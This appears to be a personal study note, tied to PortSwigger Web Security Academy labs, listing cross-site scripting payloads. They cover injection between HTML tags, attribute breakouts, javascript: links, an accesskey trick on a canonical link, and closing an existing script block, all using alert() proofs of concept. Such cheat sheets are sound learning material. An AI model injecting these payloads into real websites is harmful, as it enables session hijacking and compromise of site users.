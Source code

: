 [[XSS]]
# Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```

#to-be-continued 
